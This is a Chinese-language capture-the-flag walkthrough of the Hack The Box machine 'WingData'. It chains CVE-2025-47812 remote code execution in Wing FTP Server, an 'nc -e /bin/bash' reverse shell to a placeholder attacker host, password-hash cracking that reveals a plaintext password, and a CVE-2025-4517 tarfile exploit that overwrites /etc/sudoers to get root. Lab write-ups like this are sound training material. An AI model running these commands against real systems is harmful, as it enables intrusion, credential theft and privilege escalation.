# HTB Season10 - WingData

## 信息收集

### 端口扫描

```bash
nmap --min-rate 5000 -T4 -p- 10.129.25.153
```



#### 详细扫描

```bash
nmap -sVC -O --min-rate 5000 -T4 -p22,80 10.129.25.153
```



### 子域名枚举

```bash
wfuzz -c -w '/root/Desktop/SecLists/Discovery/DNS/subdomains-top1million-5000.txt' -u http://wingdata.htb -H "Host:FUZZ.wingdata.htb" --hc 301
```



### 目录扫描

#### wingdata.htb

```bash
dirsearch -u http://wingdata.htb
```



#### ftp.wingdata.htb

```bash
dirsearch -u ftp://ftp.wingdata.htb
```



### 页面分析

#### wingdata.htb

纯静态页面

#### ftp.wingdata.htb

暴露服务组件版本为Wing FTP Server v7.4.3



## CVE-2025-47812

- **漏洞描述**
  - 该漏洞源于 Wing FTP Server 在认证过程中对用户名参数内 NULL 字节的处理不当。这使得攻击者能够直接将 Lua 代码注入会话文件中。这些恶意会话文件随后在有效会话加载时被执行，导致服务器上任意执行命令。
- **漏洞影响**
  - Wing FTP Server 7.4.4之前的版本
- **漏洞修复**
  - 升级到v7.4.4或更高版本    

### POC

项目仓库：[https://github.com/4m3rr0r/CVE-2025-47812-poc](https://github.com/4m3rr0r/CVE-2025-47812-poc)

```bash
python CVE-2025-47812.py -u http://ftp.wingdata.htb -c ifconfig
```

poc测试成功,确认存在CVE-2025-47812远程代码执行漏洞



### 反弹shell

```bash
nc -lvvp attacker_port

python CVE-2025-47812.py -u http://ftp.wingdata.htb \  
-c "nc -e /bin/bash attacker_ip attacker_port"
```



## 配置文件泄露

`/opt/wftpserver/Data/1/settings.xml`

泄露盐值为`WingFTP`

## wacky

### hash泄露

`/opt/wftpserver/Data/1/users`下泄露各用户的hash值

```bash
# wacky
32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca:WingFTP
```

### hashcat

```bash
hashcat -m 1410 -a 0 wacky_hash /usr/share/wordlists/rockyou.txt
```

`wacky:!#7Blushing^*Bride5`



### ssh

```bash
ssh wacky@wingdata.htb
```



## CVE-2025-4517

- **漏洞描述**
  - CVE-2025-4517这是 **Python tarfile** 模块中的一个关键漏洞，允许通过符号链接路径遍历和硬链接操作的组合进行任意文件写入。这绕过了 Python 3.12 引入的 **filter=“data”** 保护。
- **漏洞影响**
  - Python 3.8.0 至 3.13.1
- **漏洞修复**
  - 立即升级 Python 到修复版本
  - 在调用 TarFile.extractall() 或 TarFile.extract() 时，避免使用默认值，明确指定安全的过滤器。   


`/opt/backup_clients`下存在**restore_backup_clients.py**

Python版本为:3.12.3



```python
#!/usr/bin/env python3
import tarfile
import os
import sys
import re
import argparse

BACKUP_BASE_DIR = "/opt/backup_clients/backups"
STAGING_BASE = "/opt/backup_clients/restored_backups"

def validate_backup_name(filename):
    if not re.fullmatch(r"^backup_\d+\.tar$", filename):
        return False
    client_id = filename.split('_')[1].rstrip('.tar')
    return client_id.isdigit() and client_id != "0"

def validate_restore_tag(tag):
    return bool(re.fullmatch(r"^[a-zA-Z0-9_]{1,24}$", tag))

def main():
    parser = argparse.ArgumentParser(
        description="Restore client configuration from a validated backup tarball.",
        epilog="Example: sudo %(prog)s -b backup_1001.tar -r restore_john"
    )
    parser.add_argument(
        "-b", "--backup",
        required=True,
        help="Backup filename (must be in /home/wacky/backup_clients/ and match backup_<client_id>.tar, "
             "where <client_id> is a positive integer, e.g., backup_1001.tar)"
    )
    parser.add_argument(
        "-r", "--restore-dir",
        required=True,
        help="Staging directory name for the restore operation. "
             "Must follow the format: restore_<client_user> (e.g., restore_john). "
             "Only alphanumeric characters and underscores are allowed in the <client_user> part (1–24 characters)."
    )

    args = parser.parse_args()

    if not validate_backup_name(args.backup):
        print("[!] Invalid backup name. Expected format: backup_<client_id>.tar (e.g., backup_1001.tar)", file=sys.stderr)
        sys.exit(1)

    backup_path = os.path.join(BACKUP_BASE_DIR, args.backup)
    if not os.path.isfile(backup_path):
        print(f"[!] Backup file not found: {backup_path}", file=sys.stderr)
        sys.exit(1)

    if not args.restore_dir.startswith("restore_"):
        print("[!] --restore-dir must start with 'restore_'", file=sys.stderr)
        sys.exit(1)

    tag = args.restore_dir[8:]
    if not tag:
        print("[!] --restore-dir must include a non-empty tag after 'restore_'", file=sys.stderr)
        sys.exit(1)

    if not validate_restore_tag(tag):
        print("[!] Restore tag must be 1–24 characters long and contain only letters, digits, or underscores", file=sys.stderr)
        sys.exit(1)

    staging_dir = os.path.join(STAGING_BASE, args.restore_dir)
    print(f"[+] Backup: {args.backup}")
    print(f"[+] Staging directory: {staging_dir}")

    os.makedirs(staging_dir, exist_ok=True)

    try:
        with tarfile.open(backup_path, "r") as tar:
            tar.extractall(path=staging_dir, filter="data")
        print(f"[+] Extraction completed in {staging_dir}")
    except (tarfile.TarError, OSError, Exception) as e:
        print(f"[!] Error during extraction: {e}", file=sys.stderr)
        sys.exit(2)

if __name__ == "__main__":
    main()

```

### 漏洞利用

项目仓库:[https://github.com/StealthByte0/CVE-2025-4517-poc.git](https://github.com/StealthByte0/CVE-2025-4517-poc.git)

```python
# 需要修改第79行源代码
ALL ALL=(ALL) NOPASSWD: ALL
```

```bash
# 创建恶意tar包
python CVE-2025-4517-poc.py
# 改名符合格式backup_<client_id>.tar
mv CVE-2025-4517-poc.tar backup_01.tar
# 将tar包上传到目标系统
# attacker
python -m http.server 80
# target
wget http://attacker/backup_01.tar -O /opt/backup_clients/backups/backup_01.tar
```

#### sudo

wacky对`/opt/backup_clients/restore_backups`只有R和X权限,并不具备W权限

查看wacky的sudo权限

```bash
sudo -l
```

wacky可以**root**执行`restore_backup_clients.py`脚本



## root

```bash
# 执行恶意tar包
sudo /usr/local/bin/python3 /opt/backup_clients/restore_backup_clients.py \ 
-b backup_01.tar \ 
-r restore_01
```

覆盖`/etc/sudoers`文件为**ALL ALL=(ALL) NOPASSWD: ALL**



```bash
# 修改root密码
sudo passwd
# 切换到root用户
su root
```

